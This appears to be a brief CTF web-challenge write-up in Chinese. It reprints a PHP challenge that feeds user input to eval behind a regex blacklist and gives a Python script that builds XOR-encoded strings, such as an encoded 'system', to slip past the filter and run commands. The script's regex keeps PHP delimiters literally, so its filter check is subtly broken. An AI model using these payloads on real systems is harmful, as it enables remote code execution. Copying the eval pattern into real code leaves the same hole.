

# 知识点
+-号无法使用，可以使用*隔开数字<br />取反无法使用，可以使用异或例如<br />%fa%fa%fa%fa%fa%fa^%89%83%89%8e%9f%97
# 思路
```python
<?php

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```
```python
# -*- coding: utf-8 -*-
import re
while True:
    payload = str(input("payload: "))

    # strlist是ascii表中所有非字母数字的字符十进制
    str1, str2 = '', ''

    for char in payload:
        for i in range(250, 251):
            # if re.search('/[a-z]|[0-9]|\+|-|\.|_|\||\$|{|}|~|%|&|;/i', chr(i)):
            #     continue
            for j in range(1, 255):
                if re.search('/[a-z]|[0-9]|\+|-|\.|_|\||\$|{|}|~|%|&|;/i', chr(j)):
                    continue
                if i ^ j == ord(char):
                    i = '%{:0>2}'.format(hex(i)[2:])
                    j = '%{:0>2}'.format(hex(j)[2:])
                    str1 += i
                    str2 += j
                    break
            break
    print("({}^{})".format(str1, str2))

```

